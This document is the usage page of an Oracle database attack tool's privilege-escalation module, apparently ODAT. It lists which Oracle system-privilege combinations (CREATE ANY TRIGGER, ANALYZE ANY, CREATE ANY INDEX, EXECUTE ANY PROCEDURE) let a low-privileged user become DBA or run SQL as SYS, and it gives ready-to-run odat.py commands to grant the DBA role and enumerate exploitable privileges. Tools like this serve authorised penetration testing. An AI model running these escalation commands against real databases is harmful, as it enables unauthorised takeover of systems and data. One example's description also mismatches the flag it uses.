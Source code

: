 # Become DBA with system privileges

This module allows you to gain privileged access (e.g. DBA) using [**system privileges**](https://docs.oracle.com/cd/E21901_01/timesten.1122/e21642/privileges.htm#TTSQL339) given to Oracle user used to launch this module. It can be used to get all system privileges given to the current Oracle user also.

With these following combinations of system privileges, the Oracle user can become DBA:
 * __CREATE PROCEDURE__ and EXECUTE ANY PROCEDURE : **SYS's privileges**
 * __CREATE ANY TRIGER__ (and CREATE PROCEDURE) : **SYS's privileges**
 * __ANALYZE ANY__ (and CREATE PROCEDURE) : **SYS's privileges**
 * __CREATE ANY INDEX__ (and CREATE PROCEDURE) : **SYS's privileges**
 * __CREATE ANY PROCEDURE__ only: it is possible to alter all Oracle users' passwords (e.g. SYS's password) using APEX_040200's privileges. The database needs to be restarted :-(

* With this *privesc* module, you can give the DBA role to Oracle user used in this module (e.g. *$USER*). Here is an example using CREATE/EXECUTE ANY PROCEDURE privileges:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --dba-with-create-any-trigger
```

* Also, it is possible to execute SQL requests as SYS manually. Here is an example using CREATE/EXECUTE ANY PROCEDURE privileges:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --exec-with-execute-any-procedure 'GRANT dba TO $USER'
```

* You can revoke the DBA role using the following command:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --revoke-dba-role
```

* As a reminder, you can use the following command to see commands of this module:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD -h
```

* The command *--get-detailed-privs* can be used to get system privileges and roles granted to Oracle user used to run this module. Also, it gets system privileges and roles given to roles granted to Oracle user.
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --get-detailed-privs
```

* To see privileges and roles given to the current Oracle user only, the command *--get-privs* must be used:
```bash
./odat.py privesc -s $SERVER -d $ID -U $USER -P $PASSWORD --get-privs
```

* Notice these 2 previous commands underlines system privileges that can be exploited by this module to gain privileged access.